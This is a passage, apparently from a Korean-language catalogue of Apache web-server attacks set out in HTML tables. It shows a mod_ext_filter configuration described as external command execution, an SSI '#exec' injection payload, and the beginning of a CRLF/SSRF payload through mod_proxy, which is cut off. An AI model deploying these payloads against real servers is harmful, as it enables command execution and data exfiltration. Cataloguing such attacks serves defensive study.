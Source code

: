     </tr>
    <tr>
      <td>External Filter Execution</td>
      <td><pre><code># mod_ext_filter 지시어를 가지고
# 외부 프로그램 /usr/bin/enscript를 사용하여
# 문서파일과 text/c 파일을 HTML로 만들고 결과의
# type을 text/html로 변경하는 필터를 정의한다
ExtFilterDefine c-to-html mode=output \
intype=text/c outtype=text/html \
cmd="/usr/bin/enscript --color -W html -Ec -o - -"
&lt; "/export/home/trawick/apacheinst/htdocs/c">
# 출력에 새로운 필터를 실행하는 core 지시어
SetOutputFilter c-to-html
# .c 파일의 type을 text/c로 만드는 mod_mime
# 지시어
AddType text/c .c
# 디버그 수준을 높여서 요청마다 현재 설정을
# 알려주는 로그문을 기록하는 mod_ext_filter
# 지시어
ExtFilterOptions DebugLevel=1
&lt;/Directory></code></pre></td>
      <td>mod_ext_filter의 FilterProvider 지시어로 정의된 외부 필터를 호출해 시스템 명령을 실행하고, 그 출력을 응답 본문에 삽입한다.</td>
      <td>[C]</td>
    </tr>
  </tbody>
</table>

### Exfiltration
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>SSI Command Injection</td>
      <td><pre><code>&lt!--#exec cgi="/cgi-bin/example.cgi" --></code></pre></td>
      <td>mod_include가 활성화된 경우, 서버 파싱 대상 파일에 해당 SSI 지시자를 삽입하여 외부 CGI(`/cgi-bin/example.cgi`)를 실행하도록 강제한다.</td>
      <td>[B]</td>
    </tr>
    <tr>
      <td>SSRF via mod_proxy Exfiltration (PEAR)</td>
      <td><pre><code>http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo %0d%0a